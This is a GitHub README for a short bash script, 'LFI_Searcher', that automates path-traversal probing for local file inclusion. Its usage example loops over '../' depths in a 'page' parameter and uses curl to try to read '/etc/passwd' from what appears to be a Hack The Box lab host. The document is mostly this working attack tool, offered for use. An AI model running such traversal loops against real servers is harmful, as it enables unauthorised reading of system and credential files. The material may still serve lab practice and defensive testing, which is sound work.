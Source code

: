 # LFI_Searcher
This script automates the search for a defined file as part of a LFI to searching for non-standard files. 

The count of directories searched is defined in the code, this script will then append as many ../ as has been defined.


**Explination of adjustable arguments**

There are 3 adjustable arguments in this script, they are:

**{NUMBER..NUMBER}** - This tells the script the range of ../ to attempt, for example if the argument is set as {1..10} then a total of 10 ../ will be used

**url="[{TARGET URL}]"** - This is the target url we are looking for E.g. a **passwd** file\n

**{PARAMETER}** - This is the parameters to fuzz, such as a page=/

**Useage Example**

```
for i in {1..10}; do
  url="http://bagel.htb:8000/?page=etc/passwd"               
  for ((j=0; j<i; j++)); do
    url="${url%\?page=*}?page=../${url#*\?page=}"
  done
  curl "$url" -o -
  echo "$url" " => $i"
done
```

https://github.com/Jtgit4/LFI_Searcher/assets/125322633/459ad897-7433-4753-8cad-890f03b95aea

